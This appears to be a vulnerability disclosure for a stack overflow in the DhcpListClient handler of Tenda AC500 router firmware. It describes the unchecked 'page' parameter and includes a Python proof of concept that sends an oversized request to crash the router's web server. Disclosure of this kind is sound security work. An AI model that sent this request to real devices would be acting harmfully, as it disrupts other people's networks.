 # Affected Version
Tenda AC500 V2.0.1.9(1307)
# Vulnerability Description
Tenda AC500 V2.0.1.9(1307) was discovered to contain a stack overflow via parameter page at url /goform/DhcpListClient.

# Firmware download address
https://www.tenda.com.cn/download/detail-2470.html

# Vulnerability Details
In function fromDhcpListClient line 39, v11 is a a user-controlled parameter(‘page’) and is read in without length check.Then in line 37, the content of v11 is copied into local variable v9, which leads to a stack overflow vulnerbility.
![Alt text](1.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

# Recurring vulnerabilities and POC
By sending delicately constructed data package as the poc above, we can cause a stack overflow error, leading to the crash of bin/httpd process.
<pre>
import requests

def calculate_length(data):
    count = 0
    for x, y in data.items():
        count += len(x) + len(y) + 2
    return count - 1


data = {'page': 'a' * 0x1000}

headers = {
    'Host': '192.168.88.138',
    'Content-Length': f'{calculate_length(data)}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'password=1234',
    'User-Agent':
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
    'Accept':
    'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Upgrade-Insecure-Requests': '1',
    'Connection': 'close'
}

url = 'http://192.168.88.138/goform/DhcpListClient'

res = requests.post(url=url, headers=headers, data=data, verify=False)

print(res)
</pre>

# Timeline  

# Acknowledgment  
Credit to @peris-navince from Beijing University of Posts and Telecommunications.